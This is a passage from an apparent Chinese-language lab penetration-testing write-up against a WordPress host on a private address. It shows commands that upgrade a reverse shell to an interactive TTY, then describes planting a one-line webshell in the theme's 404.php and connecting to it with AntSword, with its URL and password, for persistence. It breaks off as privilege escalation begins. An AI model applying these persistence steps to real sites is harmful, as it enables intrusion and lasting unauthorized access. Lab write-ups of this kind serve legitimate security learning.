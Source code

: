 升级webshell

```
Ctrl+Z
```

```
stty raw -echo
```

```
fg #返回之前的连接
```

```
ls
```

```
export SHELL=/bin/bash
```

```
export TERM=screen
```

```
stty rows 38 columns 116
```

```
reset
```

（升级成功 可Tab补全）调小字体后

在404.php中写入一句话

```
vi wp-content/themes/twentytwentyone/404.php
```

![image-20211117152444377](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117152444377.png)

保存后打开蚁剑进行配置以维持权限稳定

```
Shell:http://10.0.2.11/wordpress/wp-content/themes/twentytwentyone/404.php

pwd:aa
```

![image-20211117152943835](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117152943835.png)

成功连接

![image-20211117153006539](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117153006539.png)

## 三、提权

### 1.查看/etc/passwd
